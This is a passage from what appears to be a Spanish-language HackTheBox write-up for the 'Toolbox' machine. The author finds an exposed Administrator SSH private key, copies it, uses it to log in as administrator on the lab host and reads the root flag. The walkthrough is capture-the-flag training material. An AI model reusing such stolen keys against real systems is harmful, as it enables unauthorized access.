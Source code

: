 En la carpeta Administrator encontramos un directorio `.ssh` que contiene una clave `id_rsa` 

```bash
docker@box:/c/Users/Administrator/.ssh$ ls -la                                                                                                                                            
total 18
drwxrwxrwx    1 docker   staff         4096 Feb 19  2020 .
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 ..
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 authorized_keys
-rwxrwxrwx    1 docker   staff         1675 Feb 19  2020 id_rsa
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 id_rsa.pub
-rwxrwxrwx    1 docker   staff          348 Feb 19  2020 known_hosts
```

Nos copiamos la clave en nuestro equipo, le damos permisos 600 y nos logueamos como Administrator

```bash
ssh -i id_rsa administrator@10.10.10.236 

Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved.

administrator@TOOLBOX C:\Users\Administrator>whoami
toolbox\administrator
```

Buscamos desde la raíz de forma recursiva por el archivo `root.txt` y lo localizamos en el escritorio del usuario administartor

```bash
#ROOT
administrator@TOOLBOX C:\>dir /b/s root.txt 
C:\Documents and Settings\Administrator\Desktop\root.txt 
administrator@TOOLBOX C:\Users\Administrator\Desktop>type root.txt 
cc9a0b76ac17f8f47***************
```

Hemos completado la máquina **Toolbox** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Toolbox/pwned.png">
